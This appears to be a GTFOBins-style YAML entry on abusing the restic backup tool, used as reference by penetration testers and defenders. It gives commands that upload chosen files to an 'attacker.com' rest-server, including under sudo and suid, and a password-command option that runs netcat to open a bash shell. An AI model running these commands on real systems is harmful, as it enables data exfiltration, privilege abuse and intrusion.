 ```yaml
---
description: |
  The attacker must setup a server to receive the backups, in the following example [rest-server](https://github.com/restic/rest-server/) is used but there are other options. To start a new instance and create a new repository:

  ```console
  RPORT=12345
  NAME=backup_name
  ./rest-server --listen ":$RPORT"
  restic init -r "rest:http://localhost:$RPORT/$NAME"
  ```

  To extract the data from the restic repository in the current directory on the attacker side:

  ```console
  restic restore -r "/tmp/restic/$NAME" latest --target .
  ```

  Upload data to the attacker server with the following commands.
functions:
  command:
    - description: The attacker does not need to setup a server to receive the backups in this case. Command execution can be achieved through control of argv or environment, many restic subcommands support this option, so even if the attacker control only a subset of argv, command execution may still be achievable.
      code: |
        RESTIC_PASSWORD_COMMAND='nc -l 127.0.0.1 -p 4321 -e /bin/bash' restic backup # Through environment
        restic backup --password-command="nc -l 127.0.0.1 -p 4321 -e /bin/bash"      # Through option
  file-upload:
    - code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_or_dir_to_get
        NAME=backup_name
        restic backup -r "rest:http://$RHOST:$RPORT/$NAME" "$LFILE"
  sudo:
    - code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_or_dir_to_get
        NAME=backup_name
        sudo restic backup -r "rest:http://$RHOST:$RPORT/$NAME" "$LFILE"
  suid:
    - code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_or_dir_to_get
        NAME=backup_name
        ./restic backup -r "rest:http://$RHOST:$RPORT/$NAME" "$LFILE"
---
```

